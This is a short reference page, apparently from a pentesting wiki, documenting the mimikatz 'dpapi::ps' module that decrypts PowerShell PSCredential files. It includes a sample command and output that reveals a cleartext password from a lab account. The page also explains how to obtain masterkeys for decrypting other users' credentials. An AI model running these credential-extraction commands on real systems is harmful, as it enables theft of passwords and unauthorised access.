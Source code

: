 # ps

`dpapi::ps` decrypts PowerShell credentials (PSCredentials or SecureString). It has the following command line arguments:

* `/in`: the PowerShell credentials `.xml` file
* `/password`: the password to use to decrypt the PSCredentials
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/unprotect`: displays the decryption results on screen

```
mimikatz # dpapi::ps /in:ps_cred.xml /unprotect
UserName: hacklab\m3g9tr0n
Password: **BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {5c22983f-77ee-41e4-9086-8073d664e417}
  dwFlags            : 00000000 - 0 ()
  dwDescriptionLen   : 00000002 - 2
  szDescription      :
  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : ec2c6882a6414dbc02ef9635b417b405
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : fdf9251a5503f367cab65c6b13888556
  dwDataLen          : 00000018 - 24
  pbData             : 4dad0233039bd9a634fd1dc4ec89b1a83d0f000da752076c
  dwSignLen          : 00000014 - 20
  pbSign             : 2a8cd7071815f88bbb469b2839c52530baa1dd45

 * using CryptUnprotectData API
>> cleartext: Super_SecretPass1!
```

{% hint style="info" %}
In the example above, the `.xml` PSCredential file for decryption was previously created by the same user, hence the absence of the `/password` or `/masterkey` argument, which would be needed when attempting to decrypt `.xml` PSCredentials of a different user.
{% endhint %}
